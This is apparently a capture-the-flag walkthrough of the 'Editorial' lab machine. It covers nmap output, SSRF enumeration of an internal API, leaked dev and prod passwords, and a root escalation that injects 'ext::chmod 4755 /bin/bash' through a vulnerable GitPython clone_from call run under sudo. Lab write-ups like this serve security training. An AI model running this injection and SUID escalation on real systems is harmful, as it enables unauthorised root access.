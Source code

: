 #windows #file-upload

# NMAP 
```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 21:23 CDT
Warning: 10.129.201.125 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.201.125
Host is up (0.077s latency).
Not shown: 65193 closed tcp ports (reset), 340 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.16 seconds

```


> /uploads has a form that potentially could enumerate the machine through ssrf 
>
> tried a [payload](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt)  for lfi enumeration 
> 
> also enumerated internal port using burpsuite, found port 5000 and endpoints on the port, 

```shell
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

```
> 
> found credentials 
```shell
Username: dev\nPassword: dev080217_devAPI!@
```
## Post exploitation
>uses git version control, found a version using git log, it contains `prod` user credentials
>

```shell
prod\nPassword: 080217_Producti0n_2023!@
```

> has root privileges on a specific python file
```shell
 (root) /usr/bin/python3
        /opt/internal_apps/clone_changes/clone_prod_change.py *

```

> the python file uses a [vulnerable](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)  function (clone_from) from git Library on where it can trigger RCE, used it to change /bin/bash to an SUID file
> 
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::chmod 4755 /bin/bash'

```

```shell
/bin/bash -p
```

> gained root access